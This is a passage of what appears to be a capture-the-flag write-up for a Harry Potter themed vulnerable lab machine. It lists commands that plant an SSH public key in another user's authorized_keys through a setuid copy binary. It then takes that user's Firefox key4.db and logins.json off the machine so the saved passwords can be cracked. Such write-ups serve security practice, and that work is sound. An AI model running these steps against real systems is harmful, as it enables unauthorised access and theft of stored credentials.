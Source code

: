 Decode with Base64

```console
Pass: Love@lilly
```

Command: su snape

![Desktop View]({{ "/assets/img/vuln-harry-nagini/1.gif" | relative_url }})

## Hermiona

Command: ssh-keygen -f hermoine

Command: python3 -m http.server 80

In target

Command: cd /home/snape/

Command: wget http://192.168.0.107/hermoine.pub

Command: mv hermoine.pub authorized_keys

Command: chmod 640 authorized_keys

Command: cd /home/hermoine/bin/

Command: ./su_cp -p -r /home/snape/authorized_keys /home/hermoine/.ssh/

## Ssh

Command: ssh hermoine@192.168.0.110 -i hermoine

![Desktop View]({{ "/assets/img/vuln-harry-nagini/2.gif" | relative_url }})

## Root

There was a .mozilla folder in the Hermione folder. When I looked inside the folders, I was confronted with such information.

command: cd /home/hermoine/.mozilla/firefox/g2mhbq0o.default

```console
key4.db

logins.json
```

[Medium](https://medium.com/geekculture/how-to-hack-firefox-passwords-with-python-a394abf18016)

I need to transfer these two files to my local machine to crack the passwords.

Command: python3 -m http.server

![Desktop View]({{ "/assets/img/vuln-harry-nagini/10.png" | relative_url }})

I will use this tool to break it.
